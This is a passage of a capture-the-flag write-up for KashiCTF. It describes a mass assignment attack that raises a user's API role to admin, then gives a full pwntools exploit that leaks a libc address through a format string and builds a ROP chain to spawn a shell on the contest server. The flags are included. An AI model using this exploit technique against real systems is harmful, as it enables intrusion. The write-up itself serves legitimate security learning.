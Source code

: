 Because the challenge is about API, I immediately navigate to `/docs` to understand more about the server's APIs.
![image](https://hackmd.io/_uploads/r1eK5VqqJg.png)

So we can create user, then update user, and get the flag
TLDR:
create user, use mass assignment attack to update the role of the user to "admin", and get the flag.
![image](https://hackmd.io/_uploads/BkIyj49qkg.png)

***Flag: KashiCTF{m455_4551gnm3n7_ftw_HABquEXjy}***

## Pwn
### The Troll Zone
>Author: t4t3012
>Description: ROP ROP all the way

- My script to exploit:
```python=
from pwn import *

elf = ELF('./patched_vuln')
libc = elf.libc

p = remote("kashictf.iitbhucybersec.in", 44260)
p.sendlineafter(b'> ', b'HERE %17$p')
p.recvuntil(b'HERE ')
leaked_addr = int(p.recvline().strip(), 16)

libc_base = leaked_addr - 0x2724a
system_addr = libc_base + libc.sym.system
bin_sh_addr = libc_base + next(libc.search(b'/bin/sh\x00'))
pop_rdi_ret = libc_base + 0x277e5
ret_gadget = 0x401016

payload = flat(
    b'A' * 40,
    pop_rdi_ret,
    bin_sh_addr,
    ret_gadget,
    system_addr
)

p.sendline(payload)
p.interactive()
```
- Flag: `KashiCTF{did_some_trolling_right_there_gYYQen3j}`
### leap_of_faith
>Author: t4t3012
>Description: I liked playing Super Mario just for jumping from one place to another. Can you do that?
